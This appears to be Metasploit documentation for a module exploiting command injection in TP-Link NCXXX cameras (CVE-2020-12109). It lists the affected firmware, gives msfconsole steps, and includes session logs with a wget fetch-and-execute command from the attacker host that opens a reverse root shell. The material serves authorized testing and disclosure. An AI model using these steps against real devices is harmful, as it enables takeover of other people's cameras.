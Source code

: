 ## Vulnerable Application

TP-Link cloud cameras NCXXX series (NC200, NC210, NC220, NC230,
NC250, NC260, NC450) are vulnerable to an authenticated command
injection. In all devices except NC210, despite a check on the name
length in `swSystemSetProductAliasCheck`, no other checks are in place
in order to prevent shell metacharacters from being introduced. The
system name would then be used in `swBonjourStartHTTP` as part of a
shell command where arbitrary commands could be injected and
executed as root. NC210 devices cannot be exploited directly via
`/setsysname.cgi` due to proper input validation. NC210 devices are
still vulnerable since `swBonjourStartHTTP` did not perform any
validation when reading the alias name from the configuration file.
The configuration file can be written, and code execution can be
achieved by combining this issue with CVE-2020-12110.
This module will therefore support the following TP-Link cameras:

-NC200 <= 2.1.9 build 200225

-NC220 <= 1.3.0 build 200304

-NC230 <= 1.3.0 build 200304

-NC250 <= 1.3.0 build 200304

-NC260 <= 1.5.2 build 200304

-NC450 <= 1.5.3 build 200304

## Verification Steps

-Turn your camera on and make sure you can connect to its web interface.

-Take note of the camera model, ip address, web interface port and credentials.

-Once that is done, open msfconsole and execute the following commands:

1. `use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection`
2. `set rhost [camera ip]`
3. `set rport [camera web interface port, e.g. 80 or 443]`
4. `set target [ 0 for NC200, NC220, NC230, NC250 | 1 for NC260, NC450]`
5. `set username [web interface username]`
6. `set password [corresponding password]`
7. `set payload [payload of choice, e.g. linux/mipsle/shell/reverse_tcp]`
8. `set lhost [host ip where our reverse shell is listening]`
9. `set lport [port to listen for incoming shell]`
10. `exploit`

You should get a shell.

## Options
### USERNAME

The web interface username

### PASSWORD

The web interface password for the specified username

## Scenarios

Target = 0 (TP-Link NC200, NC220, NC230, NC250)

```
msf5 > use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection
[*] No payload configured, defaulting to linux/mipsle/meterpreter/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rport 80
rport => 80
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set target 0
target => 0
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set username admin
username => admin
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set password password
password => password
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set payload linux/mipsle/shell/reverse_tcp 
payload => linux/mipsle/shell/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lhost 192.168.0.254
lhost => 192.168.0.254
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lport 5555
lport => 5555
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > exploit

[*] Started reverse TCP handler on 192.168.0.254:6666 
[*] Authenticating with admin:YWRtaW4= ...
[+] Logged-in as admin
[+] Got cookie: t46af69kmher6f9
[+] Got token: g3cgt74qi0li8rd
[*] Using URL: http://0.0.0.0:8080/UzN4UMl7PF9
[*] Local IP: http://10.0.2.15:8080/UzN4UMl7PF9
[*] Executing command: wget -qO /tmp/jxVywWSo http://192.168.0.254:8080/UzN4UMl7PF9;chmod +x /tmp/jxVywWSo;/tmp/jxVywWSo;rm -f /tmp/jxVywWSo
[*] Client 192.168.0.1 (Wget) requested /UzN4UMl7PF9
[*] Sending payload to 192.168.0.1 (Wget)
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 3 opened (192.168.0.254:6666 -> 192.168.0.1:60141) at 2020-09-16 18:58:02 -0400
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

```

Target = 1 (TP-Link NC260, NC450)

```
msf5 > use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection
[*] No payload configured, defaulting to linux/mipsle/meterpreter/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rport 443
rport => 443
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set target 1
target => 1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set username admin
username => admin
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set password password
password => password
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set payload linux/mipsle/shell/reverse_tcp 
payload => linux/mipsle/shell/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lhost 192.168.0.254
lhost => 192.168.0.254
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lport 5555
lport => 5555
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > exploit

[*] Started reverse TCP handler on 192.168.0.254:5555 
[*] Authenticating with admin:0b8b946432f1ac91f0b07bd5f8df6587 ...
[+] Logged-in as admin
[+] Got cookie: s8ee6m830juadua
[+] Got token: kad9grok1ap37li
[*] Using URL: http://0.0.0.0:8080/Le4r7p9x
[*] Local IP: http://10.0.2.15:8080/Le4r7p9x
[*] Executing command: wget -qO /tmp/MzczOZUl http://192.168.0.254:8080/Le4r7p9x;chmod +x /tmp/MzczOZUl;/tmp/MzczOZUl;rm -f /tmp/MzczOZUl
[*] Client 192.168.0.1 (Wget/1.13.4 (linux-gnu)) requested /Le4r7p9x
[*] Sending payload to 192.168.0.1 (Wget/1.13.4 (linux-gnu))
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 3 opened (192.168.0.254:5555 -> 192.168.0.1:40216) at 2020-09-16 19:00:34 -0400
[*] Command Stager progress - 100.00% done (109/109 bytes)
[*] Server stopped.
```

### References

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12109

https://nvd.nist.gov/vuln/detail/CVE-2020-12109

https://seclists.org/fulldisclosure/2020/May/2
